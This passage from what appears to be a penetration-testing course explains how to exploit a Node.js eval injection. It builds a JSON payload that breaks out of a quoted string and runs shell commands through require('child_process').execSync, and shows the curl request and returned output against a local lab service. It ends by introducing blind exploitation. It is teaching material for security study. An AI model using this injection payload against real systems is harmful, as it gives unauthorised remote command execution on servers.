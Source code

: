 ```js
throw({message: 'The input ";" contains the following invalid characters: [;]', statusCode: 403})

```

Once we inject the previous payload, it would look like the following:

```js
throw({message: 'The input "test message', statusCode: 403})//" contains the following invalid characters: [;]', statusCode: 403})

```

We need to add to the `message` string before adding the `statusCode` parameter. We must also close the `message` string with a final single-quote `'` to satisfy the `even quotes/parentheses` rule we discussed previously. When we put this together, this would be our payload

```json
{
  "text": "' + require('child_process').execSync('ls').toString() + `'`, statusCode: 403})//"
}

```

**Note:** This time, we used backticks instead of quotes to avoid complicating the JSON body with multiple escaped double quotes. We must also escape them in the curl command to avoid breaking the bash command. This is why it is best to start scripting our attack when the payloads start getting complicated, as it would be difficult to track every special character manually within the JSON payload and the curl command.

At this point, the final `onError` string executed by `eval` is the following:

```js
throw({message: 'The input "' + require('child_process').execSync('ls').toString() + `'`, statusCode: 403})//" contains the following invalid characters: [;]', statusCode: 403})

```

This appears to be a working JavaScript code, so let's send our payload and see whether we get the output:

```shell
curl ...SNIP... http://localhost:5000/api/service/generate

{"message":"The input \"node_modules\npackage-lock.json\npackage.json\nsrc\n'"}

```

Success! We are finally able to remotely obtain the output of our commands. We will automate all of this when developing our final PoC exploit. In the next section, we will test another method to obtain commands' output for cases where even this method may not work.


# Blind Exploitation

There may be cases where even the previous option would not work, and we would not have any way to inject the command output into the HTTP response. In such cases, we would have two last options: `sleep timers` and `boolean output`.
